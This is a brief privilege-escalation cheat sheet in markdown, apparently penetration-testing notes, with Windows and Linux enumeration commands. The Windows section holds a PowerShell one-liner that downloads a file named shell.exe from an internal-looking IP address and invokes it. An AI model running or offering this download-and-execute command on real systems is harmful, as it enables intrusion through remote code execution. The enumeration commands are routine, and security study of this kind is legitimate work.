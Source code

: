# Windows Privilege Escalations
## Important tips

- Use powershell for file transfers

``` iex(iwr http://10.10.10.100/shell.exe) ```

## Basic Enum

```systeminfo```  -   Get system information | is system x64/x86 | Patches applied

# Linux Privilege Escalations

## Important tips

## Basic Enum

```whoami;id;uname -a```  -   Get username and OS info
